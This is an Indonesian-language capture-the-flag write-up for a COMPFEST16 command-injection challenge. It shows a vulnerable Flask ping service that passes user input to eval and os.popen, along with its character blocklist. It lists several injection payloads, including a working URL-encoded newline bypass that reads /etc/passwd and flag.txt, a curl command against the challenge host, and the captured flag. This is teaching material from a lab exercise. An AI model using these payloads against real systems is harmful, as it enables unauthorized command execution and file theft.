

#CTF #COMPFEST16 #WriteUp #WebExploitation #CommandInjection #COMPFESTHackingClass

>**Flag:** `COMPFEST16{bj1rrr_1njEKs1_p3rInTAH_96530087aa}`



### Write Up:
Dilampirkan source code sebagai berikut:
```python
from flask import Flask, render_template, request
import os
import re

app = Flask(__name__)

@app.route("/", methods=["GET", "POST"])

def home():

    if request.method == "GET":
        return render_template("index.html")
    elif request.method == "POST":
        ip = request.form.get("ip")
  
        if re.match(r"\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}", ip) and not any(char in ip for char in [";", "|", "&", "/" "{", "}"]):

            cmd = "eval \"ping -c 4 " + ip + "\""
            result = os.popen(cmd).read()
            return render_template("index.html", **{"data": result})
        else:
            return render_template("index.html", **{"data": "NO HACKING ALLOWED!!!! >:("})
            
if __name__ == "__main__":

    app.run("0.0.0.0", port=8080)
```

Hal yang dapat kita ketahui dari source code diatas adalah:
- `re.match(r"\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}"`
	input harus berupa angka dengan limit digit 3 dan dipisahkan dengan titik
- `not any(char in ip for char in [";", "|", "&", "/" "{", "}"])`
	dan tidak mengandung salah satu dari tanda diatas.
- variabel `cmd` berisi perintah yang akan dijalankan dengan memasukkan tambahan input dalam perintahnya dan variabel `result` akan mengembalikan nilai.

Kerentanan yang ada disini terletak pada `eval` dan `os.popen(cmd).read()`
yang rentan terhadap [[-Command Injection]].

Gunakan `Burp Suite` atau `curl` untuk mencoba mengirimkan request kepada server dan menganalisa respon nya. Disini kita masukkan ping localhost (127.0.0.1) atau 0.0.0.0 pada input dan hasilnya akan menjalankan ping sebanyak 4 kali seperti dalam variabel `cmd`

Sebelumnya, dengan memperhatikan karakter yang dilarang oleh code saya mencoba berbagai cara sebagai berikut
1. Bypass `|` dan `;` menggunakan hex
```
127.0.0.1\x3bcat\x20/etc/passwd
127.0.0.1\x7ccat\x20/etc/passwd
127.0.0.1`\7ccat\20/etc/passwd`
127.0.0.1`\3bcat\20/etc/passwd`
```
2. Menggunakan `$`
```
127.0.0.1$(cat /etc/passwd)
```

Namun, tidak berhasil. Setelah mencari referensi dan petunjuk ada titik terang
```
127.0.0.1 %0a cat /etc/passwd
```

`%0a` adalah representasi URL-encoded dari `\n`, banyak aplikasi web dan API modern yang secara otomatis men decode input URL-encoded, sehingga `%0a` akan diubah kembali menjadi newline `(\n)`.

Kita berhasil menampilkan `cat /etc/passwrd`. Setelah dianalisa, tidak ada informasi user didalamnya. Maka, kita mencoba cek dalam directory `/` menggunakan `ls -a`


Bingo, terdapat file yang bernama `flag.txt`, dan setelah dicek ternyata bukan dummy flag tetapi riil flag.


Jika menggunakan curl maka perintah nya sebagai berikut:
```
curl -X POST -d "ip=127.0.0.1%0a cat flag.txt" http://challenges.ctf.compfest.id:20001/
```

Tamat!!!

Cara lain yang lebih simpel adalah berikut:
```
0.0.0.0$(echo "\n flag.txt")
```
